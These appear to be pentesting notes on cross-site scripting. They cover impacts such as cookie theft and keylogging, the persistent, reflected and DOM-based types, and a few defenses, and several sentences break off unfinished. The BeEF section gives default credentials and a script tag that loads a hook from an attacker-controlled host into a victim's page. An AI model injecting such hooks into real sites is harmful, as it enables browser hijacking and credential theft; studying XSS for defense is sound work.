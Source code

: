 # Cross-Site Scripting

Cross-site-scripting, or XSS as it is sometimes abbreviated to, is an attack that let's the attacker execute javascript code in the browser of the victim.

## So, what's the worst that can happen?

The attacker is probably not that interested in changing the color or font of the website the victim is visiting. Although s/he could do that. The worst that can happen is probably the following:

1. Complete control over the browser The attacker can access plugins. Like password managers. The attacker can trick the user into allowing webcam or audio.
2. Session-hijacking/Cookie theft This is when the attacker steals the cookie that is saved in the browser. Using this cookie the attacker can log in to the service as the victim, and thereby gain access to his/her account. If the victim is an admin that has extended privileges \(uploading code, images, or whatever\) this could lead to a compromise of the server itself.
3. Keylogger The attacker can execute a keylogging-script that steals everything the user inputs in the website. This could be used to steal sensitive information, like passwords, credit cards information, chatlogs or whatever the user inputs.
4. Phishing The attacker can insert a fake login. Image that you visit a site, and from that site you are able to login using your facebook or google-account. The attacker could spoof that so that when you enter your credentials, they are then sent to the attacker.
5. Browser exploits The script can redirect to a another page that issues an attack against the browser, possibly leading to total takeover of the machine.

### Types of XSS

1. Persistent This is when the malicious code originates from the websites database. That means the attacker has managed to insert malicious code into the database. So every time the database serve that data the script will me executed. this is probably the most dangerous XSS, since it does not need to rely on social engineering.
2. Reflected This is an attack where the script originates from the users request. This might seem a bit illogical, why would a user inject malicious code to himself? Well the code can
3. DOM based DOM-based attacks are when something is injected into javascript on the DOM. So, it does not go by the server. Because the code gets executed in the response. Take a search-functionality for example. The users enters a search-parameter that gets sent to the server which might sanitize it or something. In the response the found search-items are sent, but not the search-query. But on the webpage the search query is exposed. "You searched for X" is shown. That is because it gets the search parameter from the url-parameter. By using `document.location.href` for example.

## Beef

Beef username/password: beef:beef Beef is a great tool for attacking browsers.

After starting it up you can log in to the panel. Then you get someone to execute the hook. Hook URL: [http://172.17.15.118:3000/hook.js](http://172.17.15.118:3000/hook.js) UI URL: [http://172.17.15.118:3000/ui/panel](http://172.17.15.118:3000/ui/panel)

By injecting the hook into a XSS. Like this

```javascript
<script src="http://172.17.15.118:3000/hook.js"></script>
```

### How does it really work?

Let's look at a practical example.

### Protect yourself

The problem with XSS is that it is a bit hard for the users to protect themselves. If there is a problem witht the website there is not that much the user can do.

One can always use noscript to block all javascript code. But that pretty much destroys the whole experience with using the internet.

### Protect your website

There are mainly two ways to protect against **encoding** and **sanitizing** .

#### Encoding

Of course the way to protect your website is to sanitize all input.

You can also set the response-header like this: `-xss-protection:"1; mode=block"`

For nodeJs you can use the helmet-module to do this. [https://www.npmjs.com/package/helmet](https://www.npmjs.com/package/helmet)

### Risks for the attacker

The obvious risk is that the attacker must expose a server.

### Tools

#### XSSER

This tool tests a lot of

`xsser --gtk`

#### Xssposed

This is a tool found in recon-ng. It basically just check this \([https://www.openbugbounty.org/](https://www.openbugbounty.org/) \) database to see if anyone has reported a xss for the website.

### References:

[http://brutelogic.com.br/blog/probing-to-find-xss/](http://brutelogic.com.br/blog/probing-to-find-xss/) [http://excess-xss.com/](http://excess-xss.com/)

